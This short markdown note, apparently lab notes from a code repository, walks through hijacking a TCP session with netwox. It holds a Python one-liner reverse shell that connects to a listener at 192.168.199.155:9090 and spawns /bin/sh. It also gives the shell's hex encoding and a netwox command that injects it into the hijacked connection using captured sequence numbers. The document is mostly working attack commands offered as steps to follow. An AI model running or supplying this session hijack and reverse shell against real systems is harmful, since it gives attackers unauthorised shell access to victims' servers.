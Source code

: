 # Telnet Session hijacking with netwox

Source Port: 33186
Sequence Number (raw): 3920446218
Acknowledgment number (raw): 3464422836
## get shell code for reverse shell
On va executer un command linux sur serveur :
Encoder en hex ce code par utiliser python2 :
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.199.155",9090));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);’<et un enter ici ‘0A’ en hex>
```
### On obtient:
```
"0a707974686f6e202d632027696d706f727420736f636b65742c73756270726f636573732c6f733b733d736f636b65742e736f636b657428736f636b65742e41465f494e45542c736f636b65742e534f434b5f53545245414d293b732e636f6e6e6563742828223139322e3136382e3139392e313535222c3930393029293b6f732e6475703228732e66696c656e6f28292c30293b206f732e6475703228732e66696c656e6f28292c31293b206f732e6475703228732e66696c656e6f28292c32293b703d73756270726f636573732e63616c6c285b222f62696e2f7368222c222d69225d293b270a"
```
### netwox command
```
$ sudo netwox 40 --ip4-src 192.168.199.159 --ip4-dst 192.168.199.156 --tcp-dst 22 --tcp-src 33186 --tcp-seqnum 3920446218 --tcp-acknum 3464422836 -A -z --tcp-window 2000 --tcp-data "0a707974686f6e202d632027696d706f727420736f636b65742c73756270726f636573732c6f733b733d736f636b65742e736f636b657428736f636b65742e41465f494e45542c736f636b65742e534f434b5f53545245414d293b732e636f6e6e6563742828223139322e3136382e3139392e313535222c3930393029293b6f732e6475703228732e66696c656e6f28292c30293b206f732e6475703228732e66696c656e6f28292c31293b206f732e6475703228732e66696c656e6f28292c32293b703d73756270726f636573732e63616c6c285b222f62696e2f7368222c222d69225d293b270a"
```
